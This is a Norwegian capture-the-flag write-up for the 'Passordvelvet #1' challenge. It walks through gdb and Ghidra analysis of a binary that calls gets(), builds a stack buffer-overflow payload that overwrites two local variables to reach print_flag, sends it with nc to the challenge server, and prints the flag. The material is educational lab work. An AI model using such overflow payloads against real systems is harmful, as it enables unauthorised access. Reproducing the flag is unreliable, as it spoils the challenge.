







# Passordvelvet #1

> Vi har lagt et sikkert passordvelv, klarer du å komme deg inn?
>
> ctf.uiactf.no:4001
>
> File: passordvelvet



```bash
$ file passordvelvet
passordvelvet: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=dbf580bd679a493f88c9855cd04ee8037f74569a, not stripped
```

Vi ser at `passordvelvet` er en `64-bit ELF executable`. Filen er ikke strippet for debugsymboler.

```bash
$ checksec passordvelvet
[*] '/home/hag/ctfuiano/passordvelvet-1/passordvelvet'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Jeg åpner `passordvelvet` i Ghidra for å gjøre en statisk analyse av filen.


> *Her ser vi en disassembly og pseudo `C`-kode for `main`-metoden.*


> *Vi ser at `print_flag`-metoden gir oss flagget.*

Vi må altså sørge for å gi en input til programmet som tar oss til `print_flag`-metoden.

Vi ser to forskjellige sjekker for å komme til `print_flag`.
- En variabel sammenlignes med verdien `0x646167656e` (`if (local_18 == 0x646167656e)`)
  - Dette er egentlig strengen; `dagen`
- En variabel sammenlignes med strengen `sikkerhets` (`local_1c = strncmp((char *)&local_48,"sikkerhets",10);`)

Binary exploitation er ikke min sterkeste side og jeg er rusten med både `Ghidra`, `gdb` og `r2`, men la oss prøve.

Vi vet at vi har en `buffer overflow`-svakhet i bruken av `gets`. Dersom vi klarer å overskrive varablene `local_18` og `local_48` i minnet med de rette verdiene så ender vi opp med å kjøre `print_flag`-metoden.

Jeg bruker `gdb` med `gef`.

```bash
$ gdb passordvelvet

gef➤  info functions
All defined functions:

Non-debugging symbols:
0x0000000000001000  _init
0x0000000000001030  putchar@plt
0x0000000000001040  strncmp@plt
0x0000000000001050  puts@plt
0x0000000000001060  fclose@plt
0x0000000000001070  printf@plt
0x0000000000001080  fgetc@plt
0x0000000000001090  gets@plt
0x00000000000010a0  setvbuf@plt
0x00000000000010b0  fopen@plt
0x00000000000010c0  exit@plt
0x00000000000010d0  __cxa_finalize@plt
0x00000000000010e0  _start
0x0000000000001110  deregister_tm_clones
0x0000000000001140  register_tm_clones
0x0000000000001180  __do_global_dtors_aux
0x00000000000011c0  frame_dummy
0x00000000000011c5  print_flag
0x000000000000123a  main
0x0000000000001380  __libc_csu_init
0x00000000000013e0  __libc_csu_fini
0x00000000000013e4  _fini
gef➤
```

Vi ser både `main` og `print_flag` i metodelisten. La oss se nærmere på `main`, men vi må kjøre programmet én gang først for å få de riktige minneadressene:

```bash
gef➤  r
Starting program: /home/hag/ctfuiano/passordvelvet-1/passordvelvet
Du har 3 forsøk på å låse opp flagget! :)
Forsøk 0 av 3
Skriv passordet: d
Beklager, sikkerhetslåsen 0x1337 er ikke riktig satt :(
Forsøk 1 av 3
Skriv passordet:
Beklager, sikkerhetslåsen 0x1337 er ikke riktig satt :(
Forsøk 2 av 3
Skriv passordet:
Beklager, sikkerhetslåsen 0x1337 er ikke riktig satt :(
Brukt alle forsøk, prøv igjen senere...[Inferior 1 (process 12053) exited with code 051]
gef➤
gef➤  disas main
Dump of assembler code for function main:
   0x000055555555523a <+0>:     push   rbp
   0x000055555555523b <+1>:     mov    rbp,rsp
   0x000055555555523e <+4>:     sub    rsp,0x40
   0x0000555555555242 <+8>:     mov    QWORD PTR [rbp-0x10],0x1337
   0x000055555555524a <+16>:    mov    QWORD PTR [rbp-0x40],0x0
   0x0000555555555252 <+24>:    mov    QWORD PTR [rbp-0x38],0x0
   0x000055555555525a <+32>:    mov    QWORD PTR [rbp-0x30],0x0
   0x0000555555555262 <+40>:    mov    QWORD PTR [rbp-0x28],0x0
   0x000055555555526a <+48>:    mov    rax,QWORD PTR [rip+0x2e1f]        # 0x555555558090 <stdin@@GLIBC_2.2.5>
   0x0000555555555271 <+55>:    mov    ecx,0x0
   0x0000555555555276 <+60>:    mov    edx,0x2
   0x000055555555527b <+65>:    mov    esi,0x0
   0x0000555555555280 <+70>:    mov    rdi,rax
   0x0000555555555283 <+73>:    call   0x5555555550a0 <setvbuf@plt>
   0x0000555555555288 <+78>:    mov    rax,QWORD PTR [rip+0x2df1]        # 0x555555558080 <stdout@@GLIBC_2.2.5>
   0x000055555555528f <+85>:    mov    ecx,0x0
   0x0000555555555294 <+90>:    mov    edx,0x2
   0x0000555555555299 <+95>:    mov    esi,0x0
   0x000055555555529e <+100>:   mov    rdi,rax
   0x00005555555552a1 <+103>:   call   0x5555555550a0 <setvbuf@plt>
   0x00005555555552a6 <+108>:   lea    rdi,[rip+0xd9b]        # 0x555555556048
   0x00005555555552ad <+115>:   call   0x555555555050 <puts@plt>
   0x00005555555552b2 <+120>:   mov    DWORD PTR [rbp-0x4],0x0
   0x00005555555552b9 <+127>:   jmp    0x555555555358 <main+286>
   0x00005555555552be <+132>:   mov    eax,DWORD PTR [rbp-0x4]
   0x00005555555552c1 <+135>:   mov    esi,eax
   0x00005555555552c3 <+137>:   lea    rdi,[rip+0xdac]        # 0x555555556076
   0x00005555555552ca <+144>:   mov    eax,0x0
   0x00005555555552cf <+149>:   call   0x555555555070 <printf@plt>
   0x00005555555552d4 <+154>:   lea    rdi,[rip+0xdac]        # 0x555555556087
   0x00005555555552db <+161>:   mov    eax,0x0
   0x00005555555552e0 <+166>:   call   0x555555555070 <printf@plt>
   0x00005555555552e5 <+171>:   lea    rax,[rbp-0x40]
   0x00005555555552e9 <+175>:   mov    rdi,rax
   0x00005555555552ec <+178>:   mov    eax,0x0
   0x00005555555552f1 <+183>:   call   0x555555555090 <gets@plt>
   0x00005555555552f6 <+188>:   movabs rax,0x646167656e
   0x0000555555555300 <+198>:   cmp    QWORD PTR [rbp-0x10],rax
   0x0000555555555304 <+202>:   jne    0x55555555533c <main+258>
   0x0000555555555306 <+204>:   lea    rax,[rbp-0x40]
   0x000055555555530a <+208>:   mov    edx,0xa
   0x000055555555530f <+213>:   lea    rsi,[rip+0xd83]        # 0x555555556099
   0x0000555555555316 <+220>:   mov    rdi,rax
   0x0000555555555319 <+223>:   call   0x555555555040 <strncmp@plt>
   0x000055555555531e <+228>:   mov    DWORD PTR [rbp-0x14],eax
   0x0000555555555321 <+231>:   cmp    DWORD PTR [rbp-0x14],0x0
   0x0000555555555325 <+235>:   jne    0x55555555532e <main+244>
   0x0000555555555327 <+237>:   call   0x5555555551c5 <print_flag>
   0x000055555555532c <+242>:   jmp    0x555555555354 <main+282>
   0x000055555555532e <+244>:   lea    rdi,[rip+0xd6f]        # 0x5555555560a4
   0x0000555555555335 <+251>:   call   0x555555555050 <puts@plt>
   0x000055555555533a <+256>:   jmp    0x555555555354 <main+282>
   0x000055555555533c <+258>:   mov    rax,QWORD PTR [rbp-0x10]
   0x0000555555555340 <+262>:   mov    rsi,rax
   0x0000555555555343 <+265>:   lea    rdi,[rip+0xd76]        # 0x5555555560c0
   0x000055555555534a <+272>:   mov    eax,0x0
   0x000055555555534f <+277>:   call   0x555555555070 <printf@plt>
   0x0000555555555354 <+282>:   add    DWORD PTR [rbp-0x4],0x1
   0x0000555555555358 <+286>:   cmp    DWORD PTR [rbp-0x4],0x2
   0x000055555555535c <+290>:   jle    0x5555555552be <main+132>
   0x0000555555555362 <+296>:   lea    rdi,[rip+0xd8f]        # 0x5555555560f8
   0x0000555555555369 <+303>:   mov    eax,0x0
   0x000055555555536e <+308>:   call   0x555555555070 <printf@plt>
   0x0000555555555373 <+313>:   nop
   0x0000555555555374 <+314>:   leave
   0x0000555555555375 <+315>:   ret
End of assembler dump.
```

Vi vil se nærmere på sjekken som skjer ved addresse `0x0000555555555300`.

`0x0000555555555300 <+198>:   cmp    QWORD PTR [rbp-0x10],rax`

Dette er den første sjekken. La oss sette et breakpoint her:

```bash
gef➤  b *0x0000555555555300
Breakpoint 2 at 0x555555555300
```

Vi lager oss også et `cyclic` pattern som vi kan bruke som input:

```bash
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
[+] Saved as '$_gef0'
```

Nå kjører vi programmet og sender inn strengen vi genererte:

```bash
gef➤  r
Starting program: /home/hag/ctfuiano/passordvelvet-1/passordvelvet
Du har 3 forsøk på å låse opp flagget! :)
Forsøk 0 av 3
Skriv passordet: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Breakpoint 2, 0x0000555555555300 in main ()
```

Vi ser at vi treffer `Breakpoint 2`:



Vi kan se at `$rax` er `0x646167656e` som forventet. `$rax` sammenlignes med `[rbp-0x10]` i `cmp`-instruksjonen og vi ser at `[rbp-0x10]` peker til en del av `pattern`'et vi genererte.

La oss finne `offset`'en:

```bash
gef➤  patter search maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
[+] Searching for 'maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
[+] Found at offset 48 (big-endian search)
```

Offset er `48`. Nå kan vi begynne på payloaden vår. La oss bygge en payload med 48 bytes padding og legge til verdien vi vet at det sammenlignes med; `0x646167656e`. Vi må reversere hver byte pga. endianness.

```bash
$ python -c 'print("A" * 48 + "\x6e\x65\x67\x61\x64")'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAnegad
```

La oss kjøre programmet igjen og bruke den nye payloaden vår som input:

```bash
gef➤  r
Starting program: /home/hag/ctfuiano/passordvelvet-1/passordvelvet
Du har 3 forsøk på å låse opp flagget! :)
Forsøk 0 av 3
Skriv passordet: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAnegad

Breakpoint 2, 0x0000555555555300 in main ()
```



Vi ser at vi treffer `Breakpoint 2` igjen, men la oss nå se nærmere på `[rbp-0x10]`:

```bash
gef➤  x/s$rbp-0x10
0x7fffffffd880: "negad"
gef➤  x/5x$rbp-0x10
0x7fffffffd880: 0x6e    0x65    0x67    0x61    0x64
```

Vi ser at vi har oppnådd ønsket verdi i `[rbp-0x10]`. Vi kan nå sette et nytt `breakpoint`:

`0x0000555555555319 <+223>:   call   0x555555555040 <strncmp@plt>`

Denne gangen setter vi et breakpoint på `0x0000555555555319` som er `strncmp`-metoden:

```bash
gef➤  b *0x0000555555555319
Breakpoint 3 at 0x555555555319
```

La oss kjøre programmet igjen med samme payload:

```bash
gef➤  r
Starting program: /home/hag/ctfuiano/passordvelvet-1/passordvelvet
Du har 3 forsøk på å låse opp flagget! :)
Forsøk 0 av 3
Skriv passordet: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAnegad

Breakpoint 2, 0x0000555555555300 in main ()
```

Vi treffer forsatt det første breakpoint'et, men la oss kjøre videre ved å trykke `c`:

```bash
gef➤  c
Continuing.

Breakpoint 3, 0x0000555555555319 in main ()
```

Vi treffer det neste breakpoint'et:



Dette betyr at vi har kommet forbi den første `if`-sjekken som forventet. Det som er enda mer interessant er at nå kan vi enkelt se hva som kommer til å skje i `strncmp@plt`:

```bash
strncmp@plt (
   $rdi = 0x00007fffffffd850 → "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAne[...]",
   $rsi = 0x0000555555556099 → "sikkerhets",
   $rdx = 0x000000000000000a
)
```

Her ser vi parametrene som klargjøres for `strncmp`-metoden. Vi ser at `$rsi` peker på strengen `sikkerhets` som er forventet basert på hva vi så i Ghidra.

`$rdi` derimot peker på starten av payloaden vår.

`$rdx` er satt til `0xA` (`10`), dette er lengden på strengen som skal sammenlignes. Dette stemmer også overens med koden i Ghidra og lengden på strengen `sikkerhets`.

Vi vet nå at `strncmp` kommer til å feile fordi `$rsi` og `$rdi` har ulikt innhold. La oss oppdatere payloaden vår:

```bash
$ python -c 'print("sikkerhets" + "A" * 38 + "\x6e\x65\x67\x61\x64")'
sikkerhetsAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAnegad
```

Den nye payloaden vår ser slik ut; `sikkerhetsAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAnegad`. Vi har lagt til `sikkerhets` som første del av payloaden da vi vet at dette er den samme verdien som finnes i `$rsi`. I tillegg har vi fjernet 10 `A`'er, slik at vi har 38 istedet for 48.

Vi tester den nye payloaden på samme måte som tidligere. `r` for å kjøre programmet på nytt, `c` for å hoppe over det første `breakpoint`'et. Nå ser vi følgende:

```bash
strncmp@plt (
   $rdi = 0x00007fffffffd850 → "sikkerhetsAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAne[...]",
   $rsi = 0x0000555555556099 → "sikkerhets",
   $rdx = 0x000000000000000a
)
```

Dette ser lovende ut! Vi fortsetter med `c`:

```bash
gef➤  c
Continuing.
Kunne ikke finne flagget. Kontakt CTF adm!
[Inferior 1 (process 12546) exited with code 01]
```

> Kunne ikke finne flagget. Kontakt CTF adm!

Vi ser nå at vi har fått en melding fra `print_flag`-metoden. Som vi så i Ghidra tidligere ser `print_flag`-metoden etter en `flag.txt`-fil. Denne finnes ikke lokalt hos oss derfor får vi denne feilmeldingen. La oss prøve payloaden vår på den eksterne tjenesten:

```bash
$ nc ctf.uiactf.no 4001
Du har 3 forsøk på å låse opp flagget! :)
Forsøk 0 av 3
Skriv passordet: sikkerhetsAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAnegad
UIACTF{må være forsiktig med brukerinput}
```

Suksess! 🤓😁👍🏻

La oss avslutte med en enkel oneliner for å lese ut flagget:

```bash
$ python -c 'print("sikkerhets" + "A" * 38 + "\x6e\x65\x67\x61\x64")' | nc ctf.uiactf.no 4001
Du har 3 forsøk på å låse opp flagget! :)
Forsøk 0 av 3
Skriv passordet: UIACTF{må være forsiktig med brukerinput}
```





## Flag
`UIACTF{må være forsiktig med brukerinput}`
